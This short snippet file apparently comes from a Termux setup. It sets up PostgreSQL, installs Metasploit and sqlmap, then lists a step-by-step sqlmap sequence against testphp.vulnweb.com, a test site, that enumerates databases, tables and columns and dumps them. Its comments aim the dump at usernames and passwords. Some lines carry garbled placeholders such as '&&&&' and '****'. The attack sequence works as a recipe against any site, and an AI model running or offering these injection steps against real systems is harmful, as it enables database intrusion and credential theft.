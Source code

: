 apt install postgresql
mkdir -p $PREFIX/var/lib/postgresql
initdb $PREFIX/var/lib/postgresql
pg_ctl -D $PREFIX/var/lib/postgresql start
createuser --superuser --pwprompt root
createdb mydb
psql mydb
exit

pkg install unstable-repo
pkg install metasploit
apt install sqlmap

sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -dbs
// database open 
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D (database)
//database name 
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D &&&& -tables
//tables open
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D **** -T (tables name) -columns
//columns opn
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D **** -T  **** -C &&&&
//columns name
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D **** -T **** -C  (columns name) -dump
// (passwor) (user name) dump 
